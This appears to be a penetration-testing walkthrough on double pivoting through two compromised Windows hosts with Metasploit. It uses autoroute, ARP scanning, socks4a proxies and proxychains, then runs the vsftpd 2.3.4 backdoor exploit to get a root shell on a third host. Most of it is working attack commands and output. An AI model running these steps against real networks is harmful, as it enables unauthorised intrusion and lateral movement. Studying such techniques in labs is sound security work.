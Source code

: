 Refer to these links: https://pentest.blog/explore-hidden-networks-with-double-pivoting/			&				https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/

The network scenario above + the resolution of the problem is from this blog: https://pentest.blog/explore-hidden-networks-with-double-pivoting/	

**CONSIDER THE FOLLWING NETWORK SCENARIO:**

```
Attacker(172.16.0.20) -> 172.16.0.11(Victim 1)
                         7.7.7.11    -> 7.7.7.20(Victim 2)
                                        8.8.8.3    -> 8.8.8.9(Victim 3)
```

We, as the Attacker(172.16.0.20), want to compromise Victim 3(8.8.8.9).

To do so our traffic must be proxied through Victim 1 and Victim 2. Supose that we already have a meterpreter shell for Victim 1 and Victim 2. Victim 2 was compromised through a proxy on 127.0.0.1:1080 TCP.

*Setting the proxy for Victim 1:*

```
1. meterpreter > ipconfig
172.16.0.11
7.7.7.11

2. meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11

3. meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe 
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5

4. meterpreter > bg
[*] Backgrounding session 1...

5. msf > use auxiliary/server/socks4a

6. msf auxiliary(socks4a) > set srvhost 172.16.0.20

7. msf auxiliary(socks4a) > set srvport 1080

8. msf auxiliary(socks4a) > run

9. Add this line to the /etc/proxychains.conf file
socks4  172.16.0.20 1080
```
Now we are able to access the 7.7.7.0/24 network using proxychains:

```
~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
...
...
```

*Setting the proxy for Victim 2:*

```
1. meterpreter > ipconfig
7.7.7.20
8.8.8.3

2. meterpreter > run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24
[*] ARP Scanning 8.8.8.0/24
[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb 
[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 
[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c 
[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1

3. meterpreter > run autoroute -s 8.8.8.0/24
[*] Adding a route to 8.8.8.0/255.255.255.0...
[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20
[*] Use the -p option to list all active routes

4. meterpreter > bg
[*] Backgrounding session 2...

5. msf > route print
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 1
 8.8.8.0 255.255.255.0 Session 2

6. msf > use auxiliary/server/socks4a

7. msf auxiliary(socks4a) > set SRVPORT 1081

8. msf auxiliary(socks4a) > set SRVHOST 172.16.0.20

9. msf auxiliary(socks4a) > run

10. Add this lines to the /etc/proxychains.conf
dynamic_chain
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks4  172.16.0.20 1080  # First Pivot
socks4  172.16.0.20 1081  # Second Pivot
```

Now we can access the 8.8.8.0/24 subnet using proxychains:

```
~# proxychains nmap -sT -sV -p21,22,23,80 8.8.8.9 -n -Pn -vv
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
NSE: Loaded 36 scripts for scanning.
Initiating Connect Scan
Scanning 8.8.8.9 [4 ports]
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:21-<><>-OK
Discovered open port 21/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:23-<><>-OK
Discovered open port 23/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:22-<><>-OK
Discovered open port 22/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
...
...
...
```

*Compromising Victim 3:*

```
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Automatic

msf exploit(vsftpd_234_backdoor) > set rhost 8.8.8.9
rhost => 8.8.8.9

msf exploit(vsftpd_234_backdoor) > run
[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 8.8.8.9:21 - USER: 331 Please specify the password.
[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...
[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 4 opened (Local Pipe -> Remote Pipe)

ifconfig
8.8.8.9
```
